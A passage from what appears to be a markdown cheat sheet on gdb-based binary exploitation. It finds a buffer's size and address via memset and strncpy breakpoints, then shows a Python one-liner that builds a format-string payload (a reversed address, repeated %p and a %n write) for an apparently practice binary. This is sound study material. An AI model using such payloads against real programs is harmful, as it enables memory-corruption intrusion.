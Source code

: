 ##### Find size of buffer ( memset )
`disassemble main` and find useful `apis`.  For example, if `memset` is called:

> void *memset(void *b, int c, size_t len);

If you break on the `memset` call, you find two useful things; the address of `buffer` and the `length` of the buffer.
```
memset@plt (
   $rdi = 0x00007fffffffe440 → 0x0000000000000000,
   $rsi = 0x0000000000000000,
   $rdx = 0x0000000000000100,
   $rcx = 0x00007ffff7af4154 → 0x5477fffff0003d48 ("H="?)
)
```
The third value, the buffer length is represented in hex.  You can see the `buffer` is `256` chars long.
```
gef➤  p/d 0x100
$4 = 256
```
##### Find size of buffer ( strncpy )
The second API call is `strncpy`.  This is less famous than `strcpy`.  The latter doesn't have the `strncpy's len` argument to mitigate buffer overflows:

> char * strncpy(char * dst, const char * src, size_t len);

If we break on `strncpy`.  It was passed:
```
strncpy@plt (
   $rdi = 0x00007fffffffe440 → 0x0000000000000000,
   $rsi = 0x00007fffffffe851 → "%256xAAAAAAAAAAAAAAAA",
   $rdx = 0x0000000000000100        <-- 256 char buffer
)
```
That re-confirms the address of the buffer and it's length of `256` characters.

##### Target register
`0x00007fffffffe440`
##### Watch buffer
`memory watch p/x 0x00007fffffffe440 10 qword`
##### Print each byte
`x/256bx 0x00007fffffffe440`
##### Print only the buffer
`x/64wx 0x00007fffffffe440`


### Buffer filling
#### argv[1]
##### Prepare input outside of debugger ( and reverse bytes )
`python -c 'print "\x08\x04\xa0\x30"[::-1] + "%p"*14 + "%n"' > change_me_bytes.hex`
##### Check the bytes
```
# xxd change_me_bytes.hex
00000000: 30a0 0408 2570 2570 2570 2570 2570 2570  0...%p%p%p%p%p%p
00000010: 2570 2570 2570 2570 2570 2570 2570 2570  %p%p%p%p%p%p%p%p
00000020: 256e 0a                                  %n.
```
##### Inside of gdb
`run $(cat change_me_bytes.hex)`


  [ba369178]: https://stackoverflow.com/questions/42884251/why-is-the-output-of-print-in-python2-and-python3-different-with-the-same-string "python_2_and_3_byte_differences"
  [961d8f92]: https://stackoverflow.com/questions/42884251/why-is-the-output-of-print-in-python2-and-python3-different-with-the-same-string "python3_byte_str"